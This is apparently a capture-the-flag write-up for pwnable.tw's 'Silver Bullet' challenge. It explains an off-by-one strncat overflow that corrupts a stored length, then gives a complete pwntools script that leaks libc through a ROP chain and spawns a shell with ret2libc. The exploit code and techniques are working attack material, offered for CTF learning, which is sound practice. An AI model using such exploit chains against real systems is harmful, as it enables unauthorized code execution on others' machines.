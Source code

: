 ## Silver Bullet

The vuln was that the string length was being stored right next to the actual string contents, and we could overflow 1 byte into it, and corrupt it. 

First, we send 47 byte bullet content, making stack like - `<A*47+null byte><47 as int_32>`

now, when we update, here is what happens - 
S
```c
read_input(&new_desc, 0x30 - *(uint32_t*)(desc + 0x30));
```
This basically reads 0x30-47 bytes, which is 1 byte only. Then it does - 
```c
strncat(desc, &new_desc, 0x30 - *(uint32_t*)(desc + 0x30));
size_t add_size = strlen(&new_desc);
```
What happens now is, strncat goes to orignal description, skips 47 bytes, writes 1 new byte, and then the final null byte is appended into 49th offset, which is the least signifcant byte of bullet size integer. This makes the size of bullet 0.

Now, it runs this - 
```c
int32_t updated_size = *(uint32_t*)(desc + 0x30) + add_size;
*(uint32_t*)(desc + 0x30) = updated_size;
```
`*(uint32_t*)(desc + 0x30)` evaluates to 0 now, and add_size is just 1. So, final size becomes 1!!.

Finally, if we call power_up function again, it will read 0x30-1 bytes. What strncat will do it, it will start at desc 0, and skip till it finds a null byte. Which, now is at 50th offset in size variable. So it will write 3 bytes into bullet_size integer
and next in stack is saved EBP and EIP of main, which we overwrite with ROP chain.

Now, as we have overwritten into size variable too, it becomes very big to defeat werewolf, and defeating it exits main, going into our ROP.

The ROP just calls puts() with GOT address of puts, and returns to main. And then we do ret2libc, by calling system() with address of /bin/sh string.


```py
from pwn import *

exe = ELF("./silver_bullet_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
context.log_level = 'debug'

def conn():
    if args.REMOTE:
        return remote("chall.pwnable.tw", 10103)
    return process([exe.path])

p = conn()

p.sendlineafter(b" :", b"1")
p.sendafter(b" :", b"A"*0x2f)
p.sendlineafter(b" :", b"2")
p.sendafter(b" :", b"AA")
p.sendlineafter(b" :", b"2")
p.sendlineafter(b" :", b"B"*7+p32(exe.plt["puts"])+p32(exe.symbols["main"])+p32(exe.got["puts"]))
p.sendline(b"3")
p.recvuntil(b"It still alive")
p.recvuntil(b" :")
p.sendline(b"3")

p.recvuntil(b"You win !!\n")
puts_leak = u32(p.recv(4))
log.info(f"puts_leak: {hex(puts_leak)}")
libc.address = puts_leak - libc.symbols["puts"]

p.sendlineafter(b" :", b"1")
p.sendafter(b" :", b"A"*0x2f)
p.sendlineafter(b" :", b"2")
p.sendafter(b" :", b"AA")
p.sendlineafter(b" :", b"2")
p.sendlineafter(b" :", b"B"*7+p32(libc.sym["system"])+p32(exe.symbols["main"])+p32(next(libc.search(b"/bin/sh"))))
p.sendline(b"3")
p.recvuntil(b"It still alive")
p.recvuntil(b" :")
p.sendline(b"3")
p.interactive()
```